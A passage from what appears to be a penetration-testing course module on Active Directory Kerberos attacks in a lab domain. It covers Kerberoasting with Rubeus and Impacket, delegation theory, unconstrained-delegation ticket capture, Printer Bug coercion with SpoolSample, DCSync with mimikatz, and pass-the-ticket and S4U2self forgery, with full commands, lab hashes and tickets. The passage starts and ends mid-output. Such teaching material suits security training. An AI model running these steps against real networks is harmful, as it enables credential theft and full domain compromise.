DistinguishedName    : CN=sqlprod,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/sql01:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlprod$INLANEFREIGHT.LOCAL$MSSQLSvc/sql01:1433*$EE29DA2458CA695EC2EDE568E9918909F7A05<SNIP>
```

Another great and fast way to perform Kerberoasting is with the [Rubeus](https://github.com/GhostPack/Rubeus) tool. In Rubeu's documentation, there are various options for the [Kerberoasting attack](https://github.com/GhostPack/Rubeus#kerberoast).

You can use Rubeus to Kerberoast all available users and return their hashes for offline cracking:

```
C:\Tools> C:\Tools>Rubeus.exe kerberoast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 6


[*] SamAccountName         : sqldev
[*] DistinguishedName      : CN=sqldev,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : MSSQL_svc_dev/inlanefreight.local:1433
[*] PwdLastSet             : 10/14/2022 7:00:06 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local:1433@INLANEFREIGHT.LOCAL*$21CF6BFCE5377C1FA957FC340261E6A3$22AC9C6E64F19D4E51E849A99DC4FC4FCE819E376045D1310393C7D26A42FFE50607C42A5F5E038E30867855091726D5E21FC0C6C49730EA32CE8BF95EB6158D30796D016CCF6BA7E5A8825DECFBD9D619917BC9BF7B2A6E53380563DDC5BF24DDEE8B38D5F869DE6682BA2C762520434027485919F8F364F8B9D84B91C3D1EA8EECA64F5C9690276A6211F5CE6C4AEA57ADB06188BE5E538DAC82C3F7EE708188B3E4FD452C06FA41022317E97E9B840B93E4A03E7429D60FC4F8EB7546597B516695BDEB010CA3FEB5A25E36BEC787044DFB19117616D76DAE523248DF55DC2513C05788B27BCE31A3FF38E820F63BB491ECCA2563799C9C4563576B22EEB703E09B68AA95EC50CD234BFDF479027415A58C48D024611E281DDD9355FFBF02BA277B10D6D5D347BFB751FA6101FFE915A<SNIP>
```

You can also Kerberoast a specific user and write te result to a file using the flag `/oufile:filename.txt`.

You could use the `/pwdsetafter` and `/pwdsetbefore` arguments to Kerberoast accounts whose password was set within a particular date; this can be helpful to you, as sometimes you find legacy accounts with a password set many years ago that is outside of the current password policy and relatively easy to crack.

You can use the `/stats` flag to list statistics about Kerberoastable accounts without sending any ticket requests. This can be useful for gathering information and checking the types of encryption the account tickets use.

The `/tgtdeleg` flag can be useful for you in situations where you find accounts with the options `This account supports Kerberos AES 128-bit encryption` or `This account supports Kerberos AES 256-bit encryption` set, meaning that when you perform a Kerberoast attack, you will get a `AES-128 (type 17)` or `AES-256 (type 18)` TGS ticket back which can be significantly more difficult to crack than `RC4 (type 23)` tickets. You will know the difference because an RC4 encrypted ticket will return a hash that starts with the`$krb5tgs$23$*` prefix, while AES encrypted tickets will give you a hash that begins with `$krb5tgs$18$`.

In cases where you receive the hash of the account with AES encryption, you can use `/tgtdeleg` flag with Rubeus to force RC4 encryption. This may work in some domains where RC4 is built-in as a failsafe for backward compatibility with older services. If successful, you may get a password hash that could crack minutes or even hours faster than if you were trying to crack an AES-encrypted hash.

### Kerberoast from Linux

To perform Kerberoasting from Linux, you will use the [GetUserSPN.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) tool from the Impacket suite. This tool can search for all Kerberoastable accounts, extract the data encrypted with the password of the service account, and return a hashcat-friendly hash for further cracking.

Running `GetUserSPN.py` without parameters will producy similar output to your PowerShell FindSPNAccounts.ps1 script from above.

```bash
d41y@htb[/htb]$ GetUserSPNs.py inlanefreight.local/pixis

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName                     Name        MemberOf                                               PasswordLastSet             LastLogon  Delegation    
---------------------------------------  ----------  -----------------------------------------------------  --------------------------  ---------  -------------
MSSQL_svc_dev/inlanefreight.local:1443   sqldev      CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:20.558388  <never>    unconstrained 
MSSQLSvc/sql01:1433                      sqlprod     CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:27.558399  <never>                  
MSSQL_svc_qa/inlanefreight.local:1443    sqlqa       CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL    2020-07-27 20:46:33.792787  <never>                  
MSSQL_svc_test/inlanefreight.local:1443  sql-test                                                           2020-07-27 20:47:07.574105  <never>                  
IIS_dev/inlanefreight.local:80           adam.jones                                                         2020-07-27 21:35:57.069094  <never>
```

Now that you know there are Kerberoastable accounts, you can request a TGS ticket or Service ticket for each of them and obtain a crackable hash in hashcat's format with the `-request` argument.

```bash
d41y@htb[/htb]$ GetUserSPNs.py inlanefreight.local/pixis -request

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName                     Name        MemberOf                                               PasswordLastSet             LastLogon  Delegation    
---------------------------------------  ----------  -----------------------------------------------------  --------------------------  ---------  -------------
MSSQL_svc_dev/inlanefreight.local:1443   sqldev      CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:20.558388  <never>    unconstrained 
MSSQLSvc/sql01:1433                      sqlprod     CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:27.558399  <never>                  
MSSQL_svc_qa/inlanefreight.local:1443    sqlqa       CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL    2020-07-27 20:46:33.792787  <never>                  
MSSQL_svc_test/inlanefreight.local:1443  sql-test                                                           2020-07-27 20:47:07.574105  <never>                  
IIS_dev/inlanefreight.local:80           adam.jones                                                         2020-07-27 21:35:57.069094  <never>                  


$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local~1443*$f06349cf7220c21cde1236e53a491a67$c4c2079e9b<SNIP>
$krb5tgs$23$*sqlprod$INLANEFREIGHT.LOCAL$MSSQLSvc/sql01~1433*$577b69c3a2abcff0fc3318fd94f90014$9272d9d177c6147a1b773ba12f95<SNIP>
$krb5tgs$23$*sqlqa$INLANEFREIGHT.LOCAL$MSSQL_svc_qa/inlanefreight.local~1443*$edaecbbcd610e2dd3ef39d6ea2cb3838$b5dbb92fb35b<SNIP>
$krb5tgs$23$*sql-test$INLANEFREIGHT.LOCAL$MSSQL_svc_test/inlanefreight.local~1443*$989e43ca34c03490e7de627135599ab4$832a1d7<SNIP>
$krb5tgs$23$*adam.jones$INLANEFREIGHT.LOCAL$IIS_dev/inlanefreight.local~80*$2b9cfebc5043606bbebb9f140bdf48cb$c05bf3d19a3e26<SNIP>
```

## Delegation Attacks

### Theory

The Kerberos protocol allows a user to authenticate to a service to use it, and Kerberos delegation enables that service to authenticate to another service as the original user.



In this example, a user authenticates to WEBSRV to access the website. Once authenticated on the website, the user needs to access information stored in a database, but should not be given access to all the information within it. The service account managing the website must communicate with the database using the user's rights so that the database only gives access to resources that the user has the right to access. This is where delegation comes into play. The service account, here WEBSRV$, will pretend to be the user when accessing the database. This is called delegation.

Kerberos delegation exists in three types: unconstrained, constrained, and resource-based constrained.

#### Unconstrained Delegation

Unconstrained delegation allows a service, here WEBSRV, to impersonate a user when accessing any other service. This is a very permissive and dangerous privilege, therefore, not any user can grant it.



For an account to have an unconstrained delegation, on the "Delegation" tab of the account, the "Trust this computer for delegation to any service (Kerberos only)" must be selected.



Only an administrator or a privileged user to whom these privileges have been explicitly given can set this option to other accounts. More specifically, it is necessary to have the "SeEnableDelegationPrivilege" privilege to perform this action. A service account cannot modify itself to add this option. It is important to remember this for the following sections.

Specifically, when this option is enabled, the "TRUSTED_FOR_DELEGATION" flag is set on the account in the UAC flags.

When this flag is set on a service account, and a user makes a TGS request to access this service, the DC will add a copy of the user's TGT to the TGS ticket. This way, the service account can extract this TGT, and thus make TGS requests to the DC using a copy of the user's TGT. The service will therefore have valid TGS ticket or ST as the user and will be able to access any services as the user.

#### Constrained Delegation

Since unconstrained delegation is not very restrictive, constrained delegation is another "more restrictive" type of delegation. This time, a service has the right to impersonate a user to a well-defined list of services. In this example, WEBSRV can only relay authentication to the SQL/DBSRV service but not to the others.



A constrained delegation can be configured in the same place as an unconstrained delegation in the "Delegation" tab of the service account. The "Trust this computer for delegation to specified services only" option should be chosen.



As with the unconstrained delegation, this option is not modifiable by default by a service account. When this option is enabled, the list of services allowed for delegation is stored in "msDS-AllowedToDelegateTo" attribute of the service account in charge of the delegation.

While for unconstrained delegation a copy of the user's TGT gets sent to the service account, this is not the case for constrained delegation. If the service account, here WEBSRV, wishes to authenticate to a resource on behalf of the user, it must make a special TGS request to the DC. Two fields will be modified compared to a classic TGS request.

- The "additional tickets" field contain a copy of the TGS ticket or Service Ticket the user sent to the service.
- The "cname-in-addl-tkt" flag will be set to indicate to the DC that it should not use the server information but the ticket information in additional tickets, i.e., the user's information the server wants to impersonate.

The DC will then verify that the service has the right to delegate authentication to the requested resource and that the copy of the TGS ticket or Service Ticket is forwardable. If all goes well, it will return a TGS ticket or Service Ticket to the service with the information of the user to be delegated to consume the final resource.

#### Resource-Based Constrained Delegation

Until now, delegation management was done at the level of the service that wanted to impersonate a user to access a resource. Resource-based constrained delegation reverses the responsibilities and shifts delegation management to the final resource. It is no longer at the service level that you list the resources to which you can delegate, but at the resource level, a trust list is established. Any account on this trusted list has the right to delegate authentication to access the resource.

In this example, the trusted list of the account DBSRV$ contains only the account WEBSRV\$. Thus, a user will be authorized if WEBSRV$ wishes to impersonate a user to access a service exposed by DBSRV. On the other hand, other accounts are not allowed to delegate authentication to any service provided by DBSRV.



Unlike the other two types of delegation, the resource has the right to modify its own trusted list. Thus, any service account has the right to modify its trusted list to allow one or more accounts to delegate authentication to themselves.

If a service account adds one or more accounts to its trusted list, it updates its `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute in the directory.

In the following PowerShell command, you add the account WEBSRV$ to the trusted list of DBSRV.

```powershell
PS C:\Tools> Import-Module ActiveDirectory
PS C:\Tools> Set-ADComputer DBSRV -PrincipalsAllowedToDelegateToAccount (Get-ADComputer WEBSRV)
```

The attribute is updated in the directory.

The delegation request is the same as for constrained delegation. A TGS request is made by the service account to access a specific resource. A copy of the user's TGS ticket is embedded in this request. The DC will then check that this service is indeed in the trusted list of the requested resource. If this is the case, it will provide the service with a TGS ticket to access this resource as the user.

#### S4U2Proxy & S4U2Self

S4U2Proxy (_[Service for User to Proxy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a)_) and S4U2Self (_[Service for User to Self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)_) are two AD extensions that allow delegation.

##### S4U2Proxy

It has already been described how S4U2Proxy works. This extension corresponds to the TGS request made by a service account to impersonate a user. The service account makes this TGS request to access a specific resource, and a copy of the user's TGS ticket is embedded in this request. The DC will then check that the service has the right to delegate authentication to the requested resource. If this is the case, it will provide the service with a TGS ticket to access this resource as the user.

##### S4U2Self

But what happens if a user has authenticated to the service without using Kerberos and therefore without providing a TGS ticket? This could be the case if then authentication mechanism uses the NTLM protocol. The S4U2Self extension solves this problem.

This step is done before S4U2Proxy since the service account doesn't have any user's TGS ticket to embed in its request. The S4U2Self extension allows a service to obtain a forwardable TGS ticket to itself on behalf of an arbitrary user. Thus, when a user authenticates to the service via NTLM for example, the service will first request a forwardable TGS to itself on behalf of the user to act as if the user had authenticated via Kerberos, then once the service has this special TGS ticket, it can make its TGS request to use the desired resource, embedding the brand new forwardable TGS ticket it just asked for.

This extension allows delegation even if the authentication protocol is not always the same between the user and the different services. This is called protocol transition.

It is precisely this feature that can be enabled or disabled in the constrained delegation. If the "Use Kerberos only" option is chose, then the service account cannot do protocol transition, therefore, cannot use the S4U2Self extension. On the other hand, if the "Use any authentication protocol" option is set, then the service account can use the S4U2Self extension and, therefore, can create a TGS ticket for any arbitrary user.

This option is quite dangerous.



## Unconstrained Delegation

### Computers

Unconstrained delegation was the only type of delegation available in Windows 2000. If a user requests a service ticket on a server with unconstrained delegation enabled, the user's TGT is embedded into the service ticket that is then presented to the server.

The server can cache this ticket in memory and then pretend to be that user for subsequent resource requests in the domain. If unconstrained delegation is not enabled, only the user's TGS ticket will be stored in memory. In this case, if the machine is compromised, an attacker could only access the resource specified in the TGS ticket in that user's context.

#### Waiting for Privileged User Authentication

If you are able to compromise a server that has unconstrained delegation enabled, and a Domain Administrator logs in, you will be able to extract their TGT and use it to move laterally and compromise other machines, including the DCs.

Rubeus is the go-to tool for this attack. As a local administrator, Rubeus can be run to monitor stored tickets. If a TGT is found within a TGS ticket, Rubeus will display it to you.

```powershell
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs
```

A few moments later, `Sarah Lafferty` connects to the compromised server. Rubeus retrieves Sarah's copy of the TGT that was embedded in her TGS ticket and displays it to you encoded in base64.

```powershell
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:06:40 AM UTC - Found new TGT:

  User                  :  sarah.lafferty@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:06:37 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFmTCCBZWgAwIBBaEDAgEWooIEgjCCBH5hggR6MIIEdqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQsMIIEKKADAgESoQMCAQKiggQaBIIEFr7cTE+mYOQsYF69H0dnaQwX2Iy/dB0k91uEBGQh/Dk0lm12PzkVgX<SNIP>
```

Thanks to PowerView, you can list the groups to which Sarah belongs. She happens to be in the Domain Admins group. So you have the TGT of a Domain Admin now.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainGroup -MemberIdentity sarah.lafferty

grouptype              : DOMAIN_LOCAL_SCOPE, SECURITY
iscriticalsystemobject : True
samaccounttype         : ALIAS_OBJECT
samaccountname         : Denied RODC Password Replication Group
whenchanged            : 7/26/2020 8:14:37 PM
<SNIP>

grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 8/14/2020 11:04:50 AM
<SNIP>

usncreated             : 12348
grouptype              : GLOBAL_SCOPE, SECURITY
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Users
whenchanged            : 7/26/2020 8:14:37 PM
<SNIP>
```

So you will use this TGT to access the Domain Controller's CIFS service, for example. The `/ptt` option/flag is used to pass the received ticket into memory so that it can be used for future requests.

```powershell
PS C:\Tools> .\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGS

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc01.INLANEFREIGHT.local'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIErTCCBKlhggSlMIIEoaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKzApoAMCAQKhIjAgGwRjaWZzGxhkYzAxLklOTEFORUZSRUlHSFQubG9jYWyjggRUMIIEUKADAgES
      oQMCAQOiggRCBIIEPrCawPV<SNIP>

  ServiceName           :  cifs/dc01.INLANEFREIGHT.local
  ServiceRealm          :  INLANEFREIGHT.LOCAL
  UserName              :  sarah.lafferty
  UserRealm             :  INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:21:49 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  zRzk0ldsF4rb7p7/MlfRkhOzkjIHL4DSok1vXYS3lt8=
```

In case the above command doesn't work, you can also use the `renew`  action to get a brand new TGT instead of a TGS ticket.

```powershell
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\brian.willis'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIGHDCCBhigAwIBBaEDAgEWooIFCDCCBQRhggUAMIIE/KADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D<SNIP>.
```

Once you have the TGS or the TGT you can effectively list the contents of the DC file system as shown in the following command.

```powershell
PS C:\Tools> dir \\dc01.inlanefreight.local\c$

 Volume in drive \\dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is 7674-0745

 Directory of \\dc01.inlanefreight.local\c$

07/27/2020  05:56 PM    <DIR>          Department Shares
07/16/2016  06:23 AM    <DIR>          PerfLogs
07/28/2020  05:35 AM    <DIR>          Program Files
07/27/2020  12:14 PM    <DIR>          Program Files (x86)
07/27/2020  07:37 PM    <DIR>          Software
07/30/2020  07:15 PM    <DIR>          Tools
07/30/2020  11:49 AM    <DIR>          Users
07/30/2020  09:13 AM    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  27,711,119,360 bytes free
```

You could also get a TGS ticket for the LDAP service and ask for synchronization with the DC to get all the user's password hashes.

#### Leveraging the Printer Bug

The Printer Bug is a flaw in the MS-RPRN protocol (_Print System Remote Protocol_). This protocol defines the communication of print jobs processing and print system management between a client and a print server. To leverage this flaw, any domain user can connect to the spools named pipe with the `RpcOpenPrinter` method and use the `RpcRemoteFindFirstPrinterChangeNotificationEx` method, and force the server to authenticate to any host provided by the client over SMB.

In other words, the Printer Bug flaw can be leveraged to coerce a server to authenticate back to an arbitrary host. It can be combined with unconstrained delegation to force a DC to authenticate to a host you control. For example, if you can gain control of SQL01 in the example above, then you may coerce DC01 to authenticate back to the compromised host and retrieve the TGT for DC01. Using this TGT, you would then be able to gain full access to DC01 and perform attacks such as DCSync to compromise the domain. If the DC(s) do not have the spooler service running, you can use this against any other computer in the domain and craft silver tickets with Rubeus, using the computer's account TGT.

This attack can be performed using [SpoolSample PoC](https://github.com/leechristensen/SpoolSample), which is used to coerce windows hosts to authenticate to other hosts, via the `MS-RPRN RPC` interface.

```powershell
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs
```

With Rubeus running in monitor mode, you then attempt to trigger the Printer Bug from the same host by running the `SpoolSample` tool in another console window. The syntax for this tool is `SpoolSample.exe <target server> <capture server>`, where the target server in your example lab is DC01 and the capture server is SQL01.

```powershell
PS C:\Tools> .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\dc01.inlanefreight.local, CaptureServer: \\sql01.inlanefreight.local
Target server attempted authentication and got an access denied. If coercing authentication to an NTLM challenge-response capture tool(e.g. responder/inveigh/MSF SMB capture), this is expected and indicates the coerced authentication worked.
```

If everything works as expected, you will get the above confirmation message from the tool. Switching back to the console running Rubeus in monitor mode, you retrieved the TGT from the DC01$ account, which is the DC machine account.

```powershell
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:49:26 AM UTC - Found new TGT:

  User                  :  DC01$@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:22:44 AM
  EndTime               :  8/14/2020 2:22:44 PM
  RenewTill             :  8/20/2020 6:52:29 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUl<SNIP>
```

You can use this ticket to get a new valid TGT in memory using the `renew` option in Rubeus.

```powershell
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQ
uTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMCAQKiggPxBIID7XBw4BNnnymchVY/H/
9966JMGtJhKaNLBt21SY3+on4lrOrHo<SNIP> /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\DC01$'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMC
      AQKiggPxBIID7W7EOz2Zqm1a6b9/cCHeJbZdt0qgV8Wgw1BS2Jctk8X9l6ibkK7G+s/jyPDL6ReV0OvP
      p3ClWOjdoLO3jH<SNIP>
    
[+] Ticket successfully imported!
```

Now that you have the TGT of DC01$ in memory, you can perform the DCSync attack to retrieve a target user's NTLM password hash. In this example, you retrieve secrets for the user `sarah.lafferty`.

```powershell
C:\Tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
  
mimikatz # lsadump::dcsync /user:sarah.lafferty

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'sarah.lafferty' will be the user account

Object RDN           : sarah.lafferty

** SAM ACCOUNT **

SAM Username         : sarah.lafferty
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 8/14/2020 4:06:13 AM
Object Security ID   : S-1-5-21-2974783224-3764228556-2640795941-1122
Object Relative ID   : 1122

Credentials:
  Hash NTLM: 0fcb586d2aec31967c8a310d1ac2bf50
    ntlm- 0: 0fcb586d2aec31967c8a310d1ac2bf50
    ntlm- 1: cf3a5525ee9414229e66279623ed5c58
    lm  - 0: 2fd05b1ff89bfeed627937845f3bc535
    lm  - 1: 3cf0c818426269923b3a993b071b81d5

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e27b6e4d84697eb7cf50dc6d0efdb226

* Primary:Kerberos-Newer-Keys *
    Default Salt : INLANEFREIGHT.LOCALsarah.lafferty
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ba5b9b6850a1aea865ab1a7fdc895d1e27f39c327b8f7d4c96132b4438727386
      aes128_hmac       (4096) : bee242dbe9cb898c67b8075e13384b22
      des_cbc_md5       (4096) : 029e1c2af1237351
    OldCredentials
      aes256_hmac       (4096) : 13b57fa4a6c0f4adce4b1d85e64a909d35dce98736909f370154f9bd08b8bc67
      aes128_hmac       (4096) : 1fdbc782bcdfcd692923dc54785d5ee1
      des_cbc_md5       (4096) : ba677a73a82a2a9e

* Primary:Kerberos *
    Default Salt : INLANEFREIGHT.LOCALsarah.lafferty
    Credentials
      des_cbc_md5       : 029e1c2af1237351
    OldCredentials
      des_cbc_md5       : ba677a73a82a2a9e

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  966bec5d60500f0e964fb78be94cc0a8
    02  1abbf4255613844082376a5288cfcfb2
    03  c74c93a52310d2a88581ffb075aeff33
    <SNIP>
```

You can capture any account's hash, such as the Administrator account, and then you can use Rubeus or Mimikatz to get a ticket from the compromised account. For example, take Sarah's hash and create a ticket with it:

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:sarah.lafferty /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 0fcb586d2aec31967c8a310d1ac2bf50
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\sarah.lafferty'
[*] Using domain controller: 172.16.99.3:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
<SNIP>
```

Now you can use this ticket to impersonate Sarah:

```powershell
PS C:\Tools> dir \\dc01.inlanefreight.local\c$

 Volume in drive \\dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is 7674-0745

 Directory of \\dc01.inlanefreight.local\c$

07/27/2020  05:56 PM    <DIR>          Department Shares
07/16/2016  06:23 AM    <DIR>          PerfLogs
07/28/2020  05:35 AM    <DIR>          Program Files
07/27/2020  12:14 PM    <DIR>          Program Files (x86)
07/27/2020  07:37 PM    <DIR>          Software
07/30/2020  07:15 PM    <DIR>          Tools
07/30/2020  11:49 AM    <DIR>          Users
07/30/2020  09:13 AM    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  27,711,119,360 bytes free
```

#### S4U2self for Non-Domain Controllers

If the target computer is not a DC, or if you want to execute attacks other than DCSync, you can use S4U2self to obtain a Service Ticket on behalf of any user you want to impersonate.

With a ticket captured from DC01 using Rubeus monitor and SpoolSample you can use `Rubeus s4u /self` to forge a service ticket for any servicy. Create a ticket to connect through SMB using the CIFS service. You will need to use `Rubeus s4u /self`, set the alternative service to CIFS, and use the ticket you have:

```powershell
PS C:\Tools> .\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.inlanefreight.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
